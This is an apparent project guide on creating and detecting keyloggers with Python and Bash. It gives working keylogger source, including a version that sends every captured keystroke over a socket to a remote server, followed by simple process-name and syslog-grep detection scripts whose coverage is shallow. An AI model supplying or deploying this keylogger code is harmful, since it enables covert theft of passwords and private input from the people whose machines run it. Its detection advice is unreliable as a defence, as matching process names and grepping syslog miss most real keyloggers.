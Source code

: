 For an advanced cybersecurity project using Bash and Python, focusing on creating and detecting keyloggers, you can consider the following components:

### Project Overview
1. **Keylogger Development**:
   - Create a keylogger using Python to capture keystrokes.
   - Ensure it logs the captured data to a file or sends it over the network.

2. **Keylogger Detection and Prevention**:
   - Develop tools to detect the presence of keyloggers on a system.
   - Implement defense mechanisms to prevent keyloggers from functioning.

3. **Advanced Logging and Analysis**:
   - Implement advanced logging techniques to monitor system behavior.
   - Analyze logs for suspicious activity related to keyloggers.

### Detailed Steps

#### 1. Keylogger Development

- **Basic Keylogger in Python**:
  ```python
  from pynput import keyboard

  log_file = "keylog.txt"

  def on_press(key):
      with open(log_file, "a") as f:
          try:
              f.write(f"{key.char}")
          except AttributeError:
              if key == key.space:
                  f.write(" ")
              else:
                  f.write(f" {key} ")

  with keyboard.Listener(on_press=on_press) as listener:
      listener.join()
  ```

- **Advanced Keylogger with Network Sending**:
  ```python
  import socket
  from pynput import keyboard

  log_file = "keylog.txt"
  server_ip = "192.168.1.100"
  server_port = 12345

  def on_press(key):
      with open(log_file, "a") as f:
          try:
              f.write(f"{key.char}")
          except AttributeError:
              if key == key.space:
                  f.write(" ")
              else:
                  f.write(f" {key} ")

      # Send log data to remote server
      try:
          with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
              s.connect((server_ip, server_port))
              s.sendall(bytes(str(key), 'utf-8'))
      except Exception as e:
          print(f"Failed to send data: {e}")

  with keyboard.Listener(on_press=on_press) as listener:
      listener.join()
  ```

#### 2. Keylogger Detection and Prevention

- **Detecting Keylogger Using Bash**:
  ```bash
  #!/bin/bash
  # Detecting running keylogger processes
  echo "Checking for keylogger processes..."
  if ps aux | grep -i "pynput" | grep -v grep; then
      echo "Keylogger detected!"
  else
      echo "No keylogger processes found."
  fi
  ```

- **Preventing Keyloggers with Python**:
  ```python
  import psutil

  def detect_keylogger():
      keylogger_processes = ["pynput", "keylogger"]
      for proc in psutil.process_iter(['pid', 'name', 'username']):
          for k_proc in keylogger_processes:
              if k_proc in proc.info['name']:
                  print(f"Keylogger detected: {proc.info}")
                  # Terminate the keylogger process
                  psutil.Process(proc.info['pid']).terminate()

  detect_keylogger()
  ```

#### 3. Advanced Logging and Analysis

- **Advanced System Monitoring with Bash**:
  ```bash
  #!/bin/bash
  # Monitor for suspicious activity related to keyloggers
  log_file="/var/log/syslog"
  grep -i "keylogger" $log_file > keylogger_alerts.log
  echo "Keylogger-related log entries:"
  cat keylogger_alerts.log
  ```

- **Log Analysis and Reporting in Python**:
  ```python
  import re

  log_file = "/var/log/syslog"
  alert_file = "keylogger_alerts.log"

  with open(log_file, "r") as f:
      logs = f.readlines()

  keylogger_alerts = [log for log in logs if re.search(r"keylogger", log, re.IGNORECASE)]

  with open(alert_file, "w") as f:
      for alert in keylogger_alerts:
          f.write(alert)

  print(f"Keylogger alerts saved to {alert_file}")
  ```

### Final Thoughts
This advanced project will enhance your skills in both offensive and defensive cybersecurity practices. You will gain experience in creating sophisticated keyloggers and implementing effective detection and prevention techniques using Bash and Python.